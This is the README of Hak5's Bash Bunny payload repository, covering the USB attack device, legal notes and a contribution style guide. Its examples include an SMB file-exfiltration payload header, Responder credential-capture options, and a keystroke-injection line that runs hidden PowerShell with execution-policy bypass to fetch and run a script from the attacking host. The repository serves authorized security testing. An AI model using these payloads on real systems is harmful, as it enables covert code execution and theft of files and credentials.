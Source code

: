 # Payload Library for the Bash Bunny by Hak5

This repository contains payloads and extensions for the Hak5 Bash Bunny. Community developed payloads are listed and developers are encouraged to create pull requests to make changes to or submit new payloads.

## About the Bash Bunny

By emulating combinations of trusted USB devices — like gigabit Ethernet, serial, flash storage and keyboards — the Bash Bunny tricks computers into divulging data, exfiltrating documents, installing backdoors and many more exploits.
-   [Purchase at Hak5](https://hak5.org/products/bash-bunny "Purchase at Hak5")
-   [Documentation](https://docs.hak5.org/hc/en-us/categories/360000982534-Bash-Bunny "Documentation")
-   [Bash Bunny Forums](https://forums.hak5.org/index.php?/forum/92-bash-bunny/ "Forums")
-   Discord:  [https://hak5.org/discord](https://hak5.org/discord)

![enter image description here](https://cdn.shopify.com/s/files/1/0068/2142/products/bash-bunny-mk2_001_c58d9658-b151-4328-af26-11eef3c47355_300x.jpg)

## Documentation
Documentation on developing payloads for the Bash Bunny can be found on the [docs.hak5.org](https://docs.hak5.org/hc/en-us/categories/360000982534-Bash-Bunny) website. Guides can be found on the [Bash Bunny blog](https://hak5.org/blogs/bash-bunny).

## Disclaimer
Generally, payloads may execute commands on your device. As such, it is possible for a payload to damage your device. Payloads from this repository are provided AS-IS without warranty. While Hak5 makes a best effort to review payloads, there are no guarantees as to their effectiveness. As with any script, you are advised to proceed with caution.

## Legal
Payloads from this repository are provided for educational purposes only.  Hak5 gear is intended for authorized auditing and security analysis purposes only where permitted subject to local and international laws where applicable. Users are solely responsible for compliance with all laws of their locality. Hak5 LLC and affiliates claim no responsibility for unauthorized or unlawful use.

## Contributing
Once you have developed your payload, you are encouraged to contribute to this repository by submitting a Pull Request. Reviewed and Approved pull requests will add your payload to this repository, where they may be publically available.

Please adhere to the following best practices and style guide when submitting a payload.

### Naming Conventions
Please give your payload a unique and descriptive name. Do not use spaces in payload names. Each payload should be submit into its own directory, with `-` or `_` used in place of spaces, to one of the categories such as exfiltration, phishing, remote_access or recon. Do not create your own category.

### Binaries
Binaries may not be accepted in this repository. If a binary is used in conjunction with the payload, please document where it or its source may be obtained.

### Comments
Payloads should begin with comments specifying at the very least the name of the payload and author. Additional information such as a brief description, the target, any dependencies / prerequisites and the LED status used is helpful.

    Title: SMB Exfiltrator
    Description: Exfiltrates files from %userprofile%\documents via SMB
    Author: Hak5Darren
    Target: Windows XP SP3 - Latest
    Dependencies: impacket
   
### Configuration Options
Configurable options should be specified in variables at the top of the payload.txt file

    # Options
    RESPONDER_OPTIONS="-w -r -d -P"
    LOOTDIR=/root/udisk/loot/quickcreds

### LED
The payload should use common payload states rather than unique color/pattern combinations when possible with an LED command preceding the Stage or ATTACKMODE.

    # Initialization
    LED SETUP
    GET SWITCH_POSITION
    GET HOST_IP
    
    # Attack
    LED ATTACK
    ATTACKMODE HID ECM_ETHERNET

### Stages and States
Stages should be documented with comments

    # Keystroke Injection Stage
    # Runs hidden powershell which executes \\172.16.64.1\s\s.ps1 when available
    GET HOST_IP
    LED STAGE1
    ATTACKMODE HID
    RUN WIN "powershell -WindowStyle Hidden -Exec Bypass \"while (\$true) { If (Test-Connection $HOST_IP -count 1) { \\\\$HOST_IP\\s\\s.ps1; exit } }\""

Common payload states include a `SETUP`, with may include a `FAIL` if certain conditions are not met. This is typically followed by either a single `ATTACK` or multiple `STAGEs`. More complex payloads may include a `SPECIAL` function to wait until certain conditions are met. Payloads commonly end with a `CLEANUP` phase, such as moving and deleting files or stopping services. A payload may `FINISH` when the objective is complete and the device is safe to eject or turn off. These common payload states correspond to `LED` states.


